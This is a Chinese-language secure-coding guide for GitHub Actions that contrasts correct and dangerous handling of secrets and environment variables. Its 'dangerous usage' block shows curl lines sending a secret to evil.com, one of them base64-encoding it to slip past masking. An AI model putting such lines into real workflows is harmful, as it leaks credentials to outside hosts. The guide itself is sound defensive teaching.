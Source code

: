 
### 2. 使用 Secrets

#### ✅ 正确用法

```yaml
# 在环境变量中使用
- name: Configure environment
  run: |
    cat > .env << EOF
    API_KEY=${{ secrets.API_KEY }}
    EOF

# 通过 env 传递
- name: Run script
  env:
    API_KEY: ${{ secrets.API_KEY }}
  run: |
    python script.py

# 在条件中检查
- name: Optional step
  if: ${{ secrets.OPTIONAL_KEY != '' }}
  run: echo "Key exists"
```

#### ❌ 危险用法

```yaml
# 危险: 直接打印 secret（会被 GitHub 自动隐藏，但仍不安全）
- run: echo "${{ secrets.API_KEY }}"

# 危险: 发送到外部
- run: curl https://evil.com?key=${{ secrets.API_KEY }}

# 危险: Base64 编码后发送（可能绕过 GitHub 的保护）
- run: echo "${{ secrets.API_KEY }}" | base64 | curl ...
```

---

### 3. 环境变量

#### ✅ 最佳实践

```yaml
# Job 级别环境变量
jobs:
  build:
    runs-on: ubuntu-latest
    env:
      NODE_ENV: production
      CACHE_VERSION: v1
    steps:
      - run: echo $NODE_ENV

# Step 级别环境变量
- name: Build
  env:
    BUILD_ID: ${{ github.run_number }}
  run: npm run build

# 从 secrets 加载
- name: Deploy
  env:
    API_KEY: ${{ secrets.API_KEY }}
```